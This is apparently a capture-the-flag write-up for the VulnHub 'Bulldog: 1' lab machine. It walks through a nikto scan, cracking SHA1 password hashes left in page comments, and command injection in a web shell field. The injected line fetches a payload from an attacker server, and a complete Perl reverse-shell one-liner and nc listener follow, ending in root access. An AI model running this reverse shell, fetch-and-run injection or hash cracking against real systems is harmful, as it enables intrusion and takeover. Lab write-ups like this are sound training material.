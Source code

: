 Bulldog: 1 write-up


scan host:

nikto http://192.168.56.101:8080/


![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/Bulldog_1/nikto_scan.jpg)

	
	find /dev dir


Visit http://192.168.56.101:8080/dev/
	
find comments in web page source

![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/Bulldog_1/comments.png)

	<!--Need these password hashes for testing. Django's default is too complex-->
	<!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->
	Team Lead: alan@bulldogindustries.com<br><!--6515229daf8dbdc8b89fed2e60f107433da5f2cb-->
	Back-up Team Lead: william@bulldogindustries.com<br><br><!--38882f3b81f8f2bc47d9f3119155b05f954892fb-->
	Front End: malik@bulldogindustries.com<br><!--c6f7e34d5d08ba4a40dd5627508ccb55b425e279-->
	Front End: kevin@bulldogindustries.com<br><br><!--0e6ae9fe8af1cd4192865ac97ebf6bda414218a9-->
	Back End: ashley@bulldogindustries.com<br><!--553d917a396414ab99785694afd51df3a8a8a3e0-->
	Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5-->
	Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e-->


Try to brute forse over : https://crackstation.net/

	Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5--> bulldog  ( sha1 )

	Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e--> bulldoglover ( sha1 )



Login to django admin page http://192.168.56.101:8080/admin with one of credentials


Than go to  http://192.168.56.101:8080/dev/shell/

Find CLI vulnerability in command field:

![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/Bulldog_1/CLI.png)

store perl reverse shell on my remote apache server:

use Socket;$i="192.168.56.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};

use CLI to downlod perl rev shell on bulldog machine:

ls & wget http://attacker_server/perl_script.pl -O /tmp/lol.pl


open nc on attacker side : nc -lvp 1234

execute perl script over CLI :ls & perl /tmp/lol2.pl & id


Get rev shell under jango

![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/Bulldog_1/rev_shell.png)

find customPermissionApp elf file in /home/bulldogadmin/.hiddenadmindirectory directory

reverse elf , find root password : SUPERultimatePASSWORDyouCANTget

execute: sudo su root

got root ;

find secret in /root/congrats.txt

![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/Bulldog_1/proof.jpg)
